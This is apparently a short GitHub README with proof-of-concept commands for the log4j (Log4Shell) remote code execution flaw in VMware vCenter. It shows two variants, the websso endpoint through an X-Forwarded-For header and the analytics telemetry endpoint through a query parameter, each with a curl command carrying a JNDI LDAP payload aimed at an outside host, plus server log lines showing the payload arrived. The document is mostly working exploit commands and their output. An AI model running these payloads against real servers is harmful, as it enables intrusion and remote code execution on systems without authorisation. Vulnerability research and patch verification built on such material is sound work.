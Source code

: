 # VMWare-vcenter log4j RCE

## websso variant

### Poc

```
curl --insecure  -vv -H "X-Forwarded-For: \${jndi:ldap://10.0.0.3:1270/lol}" "https://10.0.0.4/websso/SAML2/SSO/photon-machine.lan?SAMLRequest="
```

Logs

```
[2021-12-13T16:31:34.000Z tomcat-http--15 photon-machine.lan   fcf6634c-4722-4b22-9c46-d78a86f0b388 INFO  auditlogger] {"user":"n/a","client":"${jndi:ldap://10.0.0.3:1270/lol}, 10.0.0.3","timestamp":"12/13/2021 16:31:33 UTC","description":"User n/a@${jndi:ldap://10.0.0.3:1270/lol}, 10.0.0.3 failed to log in: org.opensaml.messaging.decoder.MessageDecodingException: No SAMLRequest or SAMLResponse query path parameter, invalid SAML 2 HTTP Redirect message","eventSeverity":"INFO","type":"com.vmware.sso.LoginFailure"}
```

![](1.png)

### 复现

![](2.png)

![](3.png)

### Reference

https://twitter.com/w3bd3vil/status/1469814463414951937

## Analytics Variant

### Poc

```
curl -vv --insecure -X POST "https://10.0.0.4/analytics/telemetry/ph/api/hyper/send?_c=\$%7Bjndi:ldap://10.0.0.3:1270/l%7D&i=test"
```

Logs

```
2021-12-21T15:14:27.726Z pool-9-thread-1  WARN  ph.phservice.push.telemetry.DefaultTelemetryLevelService Failed to discover telemetry level via the manifest for collector: ${jndi:ldap://10.0.0.3:1270/l}.  Enable 'debug' level logging to see the stack trace.
```